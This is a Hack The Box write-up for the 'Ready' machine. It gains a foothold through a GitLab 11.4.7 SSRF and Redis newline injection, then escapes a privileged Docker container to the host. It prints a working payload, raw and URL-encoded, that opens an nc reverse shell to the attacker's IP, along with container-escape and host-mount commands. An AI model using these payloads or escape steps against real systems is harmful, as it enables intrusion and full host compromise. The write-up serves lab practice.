










<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></img></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.220 ready.htb

**nmap scan:**
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://ready.htb:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
```

Port 5080 running service nginx http server

Running gitlab instance **Version CE 11.4.7** *get in help section after register with new user*



# Foothold

## gitlab <11.4.8 SSRF via IPv6

Searching for gitlab exploit on exploitDB
```bash
❯ searchsploit gitlab 11.4.7
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
GitLab 11.4.7 - RCE (Authenticated) (2)       | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authen | ruby/webapps/49257.py
---------------------------------------------- ---------------------------------
```

* Blog on GitLab 11.4.7 Remote Code Execution from [https://liveoverflow.com/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)

*liveoverflow explain in his [blog](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) AWA in youtube [video](https://youtu.be/LrLJuyAdoAg)*

**Verify ssrf**

Using IPv6 address to bypass the filter on localhost.



and it worked



## New line injection to Exploit internal redis server

Got Payload form bug reported by [Jobert Abma hacker1 report](https://hackerone.com/reports/299473)
```rb
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/bash 10.10.15.71 4141\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git
```

url encoded from [url-encode-decode.com](https://www.url-encode-decode.com/)

```bash
❯ python payload-gen.py #Scripting left on payload generating becaouse for some reason gitlab returning 422 error on every request outside chromium browser.
IP: 10.10.15.71
Port: 4141
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A+multi%0D%0A+sadd+resque%3Agitlab%3Aqueues+system_hook_push%0D%0A+lpush+resque%3Agitlab%3Aqueue%3Asystem_hook_push+%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class_eval%5C%22%2C%5C%22open%28%5C%27%7Cnc+-e+%2Fbin%2Fbash+10.10.15.71+4141%5C%27%29.read%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system_hook_push%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created_at%5C%22%3A1513714403.8122594%2C%5C%22enqueued_at%5C%22%3A1513714403.8129568%7D%22%0D%0A+exec%0D%0A+exec%0D%0A%2Fssrf.git
```

Intercept "project import" request replace import url with paylad.



# Privesc

* Inside docker container
```bash
[*] ctn000 Are we in a docker container?................................... yes!
---
... [snip] ...
-rwxr-xr-x 1 root root 0 Dec  1 12:41 /.dockerenv
```

Container's root password floting in `/` root directory but password is not working.


<!--YG65407Bjqvv9A0a8Tm_7w-->

Found gitlab config file backup in `/opt/backup/` directory and password.



and password work for container root



Now running [deepce.sh](https://github.com/stealthcopter/deepce) script found Privileged Mode enable.
```bash
[+] Privileged Mode ......... Yes
```

## docker container with privileged

* [Escaping Docker Privileged Containers by Vickie Li](https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1)
* [hacktricks.xyz technique](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#privileged-flag)

**Root-0x1**

Exploit docker Privileged Mode with deepce script
```bash
./deepce.sh --no-enumeration --exploit PRIVILEGED -cmd 'hostname' -q
```


**Root-0x2**

The `--privileged` (Privileged Mode) flag allows the container to have access to the host devices. So container root user can mount host.

Privileged Mode allow continer root to run fdisk on host.
```bash
(remote) root@gitlab.example.com:/tmp$ fdisk -l
... [snip] ...

Device        Start      End  Sectors Size Type
/dev/sda1      2048     4095     2048   1M BIOS boot
/dev/sda2      4096 37746687 37742592  18G Linux filesystem
/dev/sda3  37746688 41940991  4194304   2G Linux swap
```

Host is in `/dev/sda2`

mounting host in the comtainer
```bash
mkdir /tmp/host
mount /dev/sda2 /tmp/host
wc -c /tmp/host/root/root.txt
```




finally root shell with deepce script


